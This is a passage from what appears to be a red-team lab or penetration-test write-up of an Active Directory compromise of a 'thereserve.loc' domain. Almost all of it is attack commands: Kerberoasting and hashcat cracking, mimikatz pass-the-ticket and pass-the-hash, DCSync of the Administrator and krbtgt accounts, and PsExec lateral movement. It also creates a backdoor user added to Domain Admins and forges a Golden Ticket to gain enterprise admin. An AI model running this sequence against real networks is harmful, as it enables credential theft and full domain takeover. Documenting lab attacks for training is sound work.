 Executed Kerberoasting and Kerberos ticket manipulation:
```
Rubeus.exe kerberoast /outfile:hashes.txt
Rubeus.exe kerberoast
hashcat -m 13100 -a 0 hash.txt wordlist.txt

Rubeus.exe monitor /interval:10 /nowrap
Rubeus.exe dump

mimikatz # token::elevate
mimikatz # kerberos::ptt ticket.kirbi

lsadump::dcsync /user:Administrator@corp.thereserve.loc

sekurlsa::pth /user:Administrator /domain:corp.thereserve.loc /ntlm:[hash] /run:"mstsc.exe /restrictedadmin"
```
### 3.9 Lateral Movement and Active Directory Object Abuse

Performed lateral movement and user/group management:
```
mstsc /v:server1.corp.local
PsExec.exe \corpdc.corp.thereserve.loc cmd.exe
Enter-PSSession -ComputerName corpdc.corp.thereserve.loc

New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name "DisableRestrictedAdmin" -Value "0" -PropertyType DWORD -Force
Get-ItemPropertyValue 'HKLM:\SYSTEM\CurrentControlSet\Control\Terminal Server' fDenyTSConnections
shutdown /r

$pwd = ConvertTo-SecureString "Password1!" -AsPlainText -Force
New-ADUser -Name corpdcuser -AccountPassword $pwd -PasswordNeverExpires $true -Enabled $true
$User = Get-ADUser -Identity corpdcuser -Server "corpdc.corp.thereserve.loc"
$Group = Get-ADGroup -Identity "Domain Admins" -Server "corpdc.corp.thereserve.loc"
Add-ADGroupMember -Identity $Group -Members $User -Server "corpdc.corp.thereserve.loc"
Add-ADGroupMember -Identity "Remote Desktop Users" -Members corpdcuser
```
Enumerated forests and trusts:
```
Get-NetForest
Get-NetDomainTrust
Get-ADForest | Format-List *
Get-ADGroup "Enterprise Admins" -Server rootdc.thereserve.loc
```
Golden Ticket and advanced escalation process:
```
lsadump::dcsync /user:krbtgt@corp.thereserve.loc

kerberos::golden /user:krbtgt /domain:corp.thereserve.loc /sid:[SID] /sids:[EnterpriseAdminSID] /service:krbtgt /rc4:[krbtgtHash] /ptt

dir \rootdc.thereserve.loc\c$
PsExec.exe \rootdc.thereserve.loc cmd.exe
```
---
## 4. File Transfer and Remote Tool Usage
